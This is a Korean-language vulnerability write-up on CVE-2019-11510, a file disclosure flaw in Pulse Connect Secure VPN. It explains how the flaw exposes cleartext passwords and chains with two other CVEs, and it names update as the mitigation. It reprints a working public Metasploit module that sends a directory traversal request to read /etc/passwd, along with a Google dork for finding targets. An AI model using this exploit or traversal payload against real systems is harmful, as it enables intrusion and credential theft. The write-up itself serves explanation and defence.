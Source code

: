 # CVE-2019-11510

## 개요
[CVE-2019-11510](https://nvd.nist.gov/vuln/detail/CVE-2019-11510)는 임의 파일 노출 취약성으로, 2019년 4월 초 상용 VPN solution으로 쓰이는 Pulse Connect Secure(PCS)에서 Orange Tsai와 Meh Chang에 의해 발견되었다.

이 결함을 통해 인증되지 않은 해커가 configuration settings와 같은 **중요한 정보**를 포함하여 취약한 장치에서 발견된 모든 파일의 내용을 읽을 수 있다.

---

## 분석
이 취약점을 통해 해커는 directory traversal sequence가 포함된 악의적인 HTTP 요청을 Uniform Resource Identifier(URI)와 함께 보내 취약 장치의 모든 파일에 접근할 수 있었다. 이것은 해커가 장치의 중요한 정보에 대한 접근 또한 제공하며, 이 공격은 그들이 발견한 다른 취약점들과 연계될 수 있다.

사용자가 VPN의 관리 인터페이스에 로그인하면, 일반 텍스트 암호가 */data/runtime/mtmp/lmdb/data.mdb*에 저장된다. 해커는 위의 방법을 사용하여 파일을 얻고, 사용자의 암호를 추출한 다음 장치에 로그인 할 수 있다. 로그인 후 장치는 관리 웹 인터페이스에서 **command injection 취약점**인 [CVE-2019-11539](https://nvd.nist.gov/vuln/detail/CVE-2019-11539) 에 노출된다.  
또한, 사용자 자격증명을 갖게 되어 인증된 사용자가 악의적인 파일을 업로드 하고 임의 파일을 호스트에 쓸 수 있도록 허용하는 **Network File Share(NFS) 의 취약점**인 [CVE-2019-11508](https://nvd.nist.gov/vuln/detail/CVE-2019-11508)에도 노출된다.

이 취약점은 또한 해커가 캐시된 자격 증명을 찾을 수 없는 경우에도 */data/runtime/mtmp/system*에 접근하여 사용자 및 해시된 암호 목록을 수집하여 충분한 시간과 노력을 통해 해시를 크래킹하여 자격 증명으로 로그인할 수 있다.

---

## Proof of concept (PoC)
PoC는 2019년 8월 20일에 [Exploit Database](https://www.exploit-db.com/exploits/47297)에 [Alyssa Herrera](https://twitter.com/Alyssa_Herrera_)와 [Justin Wagner](https://twitter.com/0xDezzy)가 작성한 취약성 모듈로 게시되었다.  

<details>
<summary>코드 보기</summary>
<div markdown="1">

```ruby
# Exploit Title: File disclosure in Pulse Secure SSL VPN (metasploit)
# Google Dork: inurl:/dana-na/ filetype:cgi
# Date: 8/20/2019
# Exploit Author: 0xDezzy (Justin Wagner), Alyssa Herrera
# Vendor Homepage: https://pulsesecure.net
# Version: 8.1R15.1, 8.2 before 8.2R12.1, 8.3 before 8.3R7.1, and 9.0 before 9.0R3.4
# Tested on: Linux
# CVE : CVE-2019-11510 
require 'msf/core'
class MetasploitModule < Msf::Auxiliary
	include Msf::Exploit::Remote::HttpClient
	include Msf::Post::File
	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Pulse Secure - System file leak',
			'Description'    => %q{
				Pulse Secure SSL VPN file disclosure via specially crafted HTTP resource requests.
        This exploit reads /etc/passwd as a proof of concept
        This vulnerability affect ( 8.1R15.1, 8.2 before 8.2R12.1, 8.3 before 8.3R7.1, and 9.0 before 9.0R3.4
			},
			'References'     =>
			    [
			        [ 'URL', 'http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11510' ]
			    ],
			'Author'         => [ '0xDezzy (Justin Wagner), Alyssa Herrera' ],
			'License'        => MSF_LICENSE,
			 'DefaultOptions' =>
		      {
		        'RPORT' => 443,
		        'SSL' => true
		      },
			))

	end


	def run()
		print_good("Checking target...")
		res = send_request_raw({'uri'=>'/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/'},1342)

		if res && res.code == 200
			print_good("Target is Vulnerable!")
			data = res.body
			current_host = datastore['RHOST']
			filename = "msf_sslwebsession_"+current_host+".bin"
			File.delete(filename) if File.exist?(filename)
			file_local_write(filename, data)
			print_good("Parsing file.......")
			parse()
		else
			if(res && res.code == 404)
				print_error("Target not Vulnerable")
			else
				print_error("Ooof, try again...")
			end
		end
	end
	def parse()
		current_host = datastore['RHOST']

	    fileObj = File.new("msf_sslwebsession_"+current_host+".bin", "r")
	    words = 0
	    while (line = fileObj.gets)
	    	printable_data = line.gsub(/[^[:print:]]/, '.')
	    	array_data = printable_data.scan(/.{1,60}/m)
	    	for ar in array_data
	    		if ar != "............................................................"
	    			print_good(ar)
	    		end
	    	end
	    	#print_good(printable_data)

		end
		fileObj.close
	end
end
```

</details>

---

## 요약

- 2019년 4월 초CVE-2019-11510 취약점 발견
- 공격 패턴: 취약 시스템 스캔 -> Pulse Secure VPN의 시스템 패스워드와, FortiGate VPN 세션 파일을 탈취 -> 성공시 해커는 장치의 인증을 통과하거나 실제 VPN 세션으로 위장할 수 있음
- 현재 취약 버전 업데이트를 통해 대응 가능

---

## 참고자료
출처 : https://www.tenable.com/blog/cve-2019-11510-proof-of-concept-available-for-arbitrary-file-disclosure-in-pulse-connect-secure